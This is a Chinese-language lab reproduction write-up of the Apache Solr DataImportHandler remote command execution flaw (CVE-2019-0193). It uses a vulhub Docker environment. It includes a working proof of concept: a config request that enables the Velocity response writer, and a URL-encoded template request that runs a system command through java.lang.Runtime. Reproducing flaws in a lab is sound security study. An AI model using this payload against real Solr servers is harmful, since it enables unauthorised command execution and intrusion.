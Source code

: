 ```yaml
---
description: CVE-2019-0193
---
```


# Apache Solr 远程命令执行漏洞（CVE-2019-0193）

以下内容来自「[是大方子-Apache Solr 远程命令执行漏洞（CVE-2019-0193）](https://note.youdao.com/ynoteshare1/index.html?id=59ba4b4d77327e0b12cfb9a67f114956&type=note)」，我看了他写的复现报告之后，认为写的还可以，并搭建环境完成了复现，具体内容如下：

## 正文

漏洞环境可以采用vulhub的github：

* [https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-0193)

漏洞原理与分析可以参考：

* [https://mp.weixin.qq.com/s/typLOXZCev\_9WH\_Ux0s6oA](https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA)
* [https://paper.seebug.org/1009/](https://paper.seebug.org/1009/)

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。本环境测试RCE漏洞。  
  
漏洞影响范围：Apache Solr &lt;= 8.2.0  
漏洞环境  
运行漏洞环境：

```text
docker-compose up -d
```

```text
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问环境

```text
http://10.26.231.203:8983/solr/#/
```

访问test的配置文件

![](../../.gitbook/assets/image%20%286%29.png)

```text
http://10.26.231.203:8983/solr/test/config
```

抓包并修改发送方式  
然后利用s00py公布的poc修改向config发送json配置继续修改

```text
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

这2个位置要修改

![](../../.gitbook/assets/image%20%284%29.png)

然后就可以进行RCE

```text
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: 10.26.231.203:8983
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Connection: close
```

![](https://note.youdao.com/yws/public/resource/59ba4b4d77327e0b12cfb9a67f114956/xmlnote/6A6CE5A6CCFA4F589061DB43FAF99AC4/73795)

